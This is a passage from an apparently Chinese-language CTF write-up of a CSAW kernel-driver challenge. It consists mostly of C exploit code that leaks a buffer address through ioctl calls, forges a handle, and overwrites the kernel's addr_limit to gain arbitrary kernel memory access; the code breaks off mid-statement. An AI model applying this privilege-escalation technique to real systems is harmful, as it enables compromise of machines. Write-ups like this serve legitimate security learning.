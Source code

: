 ```
$3 = (struct exec_domain *) 0xffffffff81c39320 <default_exec_domain>
```
泄露栈地址后，接下来就是overwrite addr_limit了，这个步骤也不难，可参考上述提到的文章：
```c
    puts("[*] allocating a handle.....\n");
    memset(&alloc_args, 0, sizeof(alloc_args));
    alloc_args.size = BUF_SIZE;

    ret = ioctl(fd, CSAW_ALLOC_HANDLE, &alloc_args);
    if ( ret < 0 )
    {
        perror("ioctl");
        exit(EXIT_FAILURE);
    }

    handle = alloc_args.handle;
    printf("[+] Acquired handle: %lx\n", handle);

    puts("[*] Leaking buf's address......\n");
    memset(&consumer_args, 0, sizeof(consumer_args));
    consumer_args.handle = handle;
    consumer_args.offset = 255;

    ret = ioctl(fd, CSAW_GET_CONSUMER, &consumer_args);
    if ( ret < 0 )
    {
        perror("ioctl");
        exit(EXIT_FAILURE);
    }

    buf = consumer_args.pid;
    printf("[+] buf = %p\n", (void *)buf);

    seed = buf ^ handle;
    printf("[+] seed = %lx\n", seed);

    target = (unsigned long)addr_limit;
    printf("[+] target(addr_limit) = %lx\n", target);
    new_handle = target ^ seed;
    printf("[+] new handle = %lx\n", new_handle);

    puts("[*] overwriting buf as addr_limit's address......");
    memset(&consumer_args, 0, sizeof(consumer_args));
    consumer_args.handle = handle;
    consumer_args.offset = 255;
    consumer_args.pid = target;

    ret = ioctl(fd, CSAW_SET_CONSUMER, &consumer_args);
    if ( ret < 0 )
    {
        perror("ioctl");
        exit(EXIT_FAILURE);
    }

    puts("[*] overwriting addr_limit as 0xffffffffffffffff......");
    buf = (unsigned long)-1;
    memset(&write_args, 0, sizeof(write_args));
    write_args.handle = new_handle;
    write_args.size = sizeof(buf);
    write_args.in = &buf;

    ret = ioctl(fd, CSAW_WRITE_HANDLE, &write_args);
    if ( ret < 0 )
```